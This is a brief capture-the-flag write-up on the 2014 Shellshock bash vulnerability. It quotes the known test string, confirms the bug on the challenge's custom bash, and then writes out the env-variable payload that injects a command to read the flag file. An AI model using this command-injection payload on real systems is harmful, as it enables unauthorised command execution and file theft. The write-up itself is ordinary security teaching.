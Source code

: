 # Shellshock

After googling about shellshock, we discover it's a vulnerability discovered in `bash` in 2014 allowing code execution.

Wikipedia quotes the initial report:

`$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`

We can test whether this works on our custom `bash` executable:

```bash
$ env x='() { :;}; echo vulnerable' ./bash
vulnerable
```

And then use it to get the flag:

`$ env x='() { :;}; /bin/cat ~/flag' ~/shellshock`
